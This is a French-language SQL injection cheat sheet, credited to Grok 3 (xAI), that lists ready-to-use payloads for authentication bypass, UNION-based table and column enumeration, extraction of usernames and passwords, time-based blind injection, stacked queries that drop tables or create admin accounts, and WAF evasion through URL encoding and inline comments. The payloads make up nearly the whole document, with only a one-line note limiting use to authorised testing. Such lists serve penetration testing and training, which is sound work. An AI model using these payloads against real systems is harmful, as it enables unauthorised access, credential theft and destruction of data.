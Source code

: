 Cheat Sheet - Injections SQL
Ce document présente une liste de payloads SQL pour tester les vulnérabilités d'injection SQL dans des environnements contrôlés et légaux uniquement.
Date : 04 mars 2025
Auteur : Grok 3 (xAI)
1. Contournement d'authentification (Authentication Bypass)
Payloads pour ignorer les vérifications d'identifiants en manipulant la logique SQL.
Payload

Description

' OR '1'='1' --

Condition toujours vraie avec commentaire 
--

' OR '1'='1' #

Même chose avec commentaire 
#
 (MySQL)

' OR 1=1 --

Variante sans guillemets

') OR ('1'='1

Contourne avec parenthèses

' OR '1'='1' AND ''='

Ajoute une condition vide

admin' --

Injecte directement "admin"

admin' #

Idem avec commentaire 
#

2. Exploitation de colonnes et tables
Extraire des métadonnées comme les noms de tables ou de colonnes.
Enumération des colonnes
Payload

Description

' UNION SELECT 1,2,3 --

Teste le nombre de colonnes

' UNION SELECT null, table_name FROM information_schema.tables --

Liste les tables

' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --

Liste les colonnes d'une table

Enumération des tables
Payload

Description

' UNION SELECT table_name, column_name FROM information_schema.columns --

Récupère tables et colonnes

' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database() --

Tables de la base courante

3. Exfiltration de données
Récupérer des données sensibles comme les identifiants.
Payload

Description

' UNION SELECT username, password FROM users --

Extrait noms d'utilisateur et mots de passe

' UNION SELECT 1, group_concat(column_name) FROM information_schema.columns WHERE table_name='users' --

Concatène les colonnes

4. Injections basées sur le temps (Blind SQL Injection)
Exploiter des délais pour confirmer des conditions.
Tests de base
Payload

Description

' OR IF(1=1, SLEEP(5), 0) --

Test simple avec délai de 5s

' AND IF(LENGTH(database())>5, SLEEP(5), 0) --

Vérifie la longueur du nom de la base

Extraction lettre par lettre
Payload

Description

' AND IF(SUBSTRING((SELECT database()),1,1)='a', SLEEP(5), 0) --

Teste la 1re lettre de la base

' AND ASCII(SUBSTRING((SELECT user()),1,1)) > 100 --

Compare la valeur ASCII de l'utilisateur

5. Requêtes empilées (Stacked Queries)
Exécuter plusieurs requêtes dans une seule injection.
Payload

Description

'; DROP TABLE users; --

Supprime la table "users"

'; UPDATE users SET is_admin=1 WHERE username='admin'; --

Modifie un utilisateur

'; INSERT INTO users (username, password) VALUES ('hacker', '1234'); --

Ajoute un utilisateur

6. Contournement des pare-feux
Éviter les filtres WAF avec encodage ou commentaires.
Encodage URL
Payload

Description

%27%20OR%20%271%27=%271 --

' OR '1'='1 --
 encodé

%27%20UNION%20SELECT%20null,null,null --

UNION encodé

Commentaires inline
Payload

Description

admin'/**/OR/**/'1'='1'--

Ajoute des commentaires entre les mots

' OR '1'='1'/**/AND/**/'a'='a --

Variante avec condition supplémentaire

7. Champs numériques
Pour les injections dans des champs attendant des nombres.
Payload

Description

1 OR 1=1 --

Condition toujours vraie

1 AND 1=2 UNION SELECT 1, database() --

Récupère le nom de la base

1 UNION SELECT null, user() --

Récupère l'utilisateur courant

8. Détection de la version du serveur
Identifier le SGBD ou ses détails.
Payload

Description

' UNION SELECT @@version --

Version du serveur (MSSQL/MySQL)

' UNION SELECT version() --

Version (MySQL/PostgreSQL)

' UNION SELECT @@hostname --

Nom d'hôte (MSSQL)

9. Attaques sur XML/JSON
Exploiter des données structurées dans SQL.
Payload

Description

' AND JSON_CONTAINS('[1,2,3]', '2') --

Teste une condition JSON

' UNION SELECT ExtractValue(xml_data, '//user/name') FROM users --

Extrait des données XML

10. Payloads avancés
Techniques complexes pour des scénarios spécifiques.
Payload

Description

' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema=database() --

Liste toutes les tables

' OR IF((SELECT COUNT(*) FROM users WHERE is_admin=1)>0, SLEEP(5), 0) --

Vérifie les admins avec délai

' UNION SELECT user(), current_user(), session_user() --

Récupère les utilisateurs système

Précautions
Usage légal uniquement : Tests autorisés dans des environnements contrôlés.

Outils recommandés : SQLMap pour automatiser les injections complexes.

